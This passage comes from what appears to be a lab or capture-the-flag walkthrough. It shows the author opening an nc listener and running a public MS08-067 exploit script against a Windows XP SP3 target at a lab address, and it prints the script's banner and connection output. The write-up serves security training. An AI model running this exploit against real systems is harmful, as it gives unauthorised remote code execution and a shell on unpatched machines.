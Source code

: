 
Based on my enumeration, I know it’s Windows XP. I’m going to try target 6
first, Windows XP SP3 English (NX). If that fails, I’ll come back and try
others.

#### Run Exploit

I’ll open a `nc` listener, and run the exploit:

    
    
    root@kali# python ms08-067.py 10.10.10.4 6 445
    #######################################################################
    #   MS08-067 Exploit
    #   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
    #   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
    #
    #   Mod in 2018 by Andy Acer
    #   - Added support for selecting a target port at the command line.
    #   - Changed library calls to allow for establishing a NetBIOS session for SMB transport
    #   - Changed shellcode handling to allow for variable length shellcode.
    #######################################################################
    
    $   This version requires the Python Impacket library version to 0_9_17 or newer.
    $
    $   Here's how to upgrade if necessary:
    $
    $   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
    $   cd impacket
    $   pip install .
    
    #######################################################################
    
    Windows XP SP3 English (NX)
    
    [-]Initiating connection
    [-]connected to ncacn_np:10.10.10.4[\pipe\browser]
    Exploit finish
    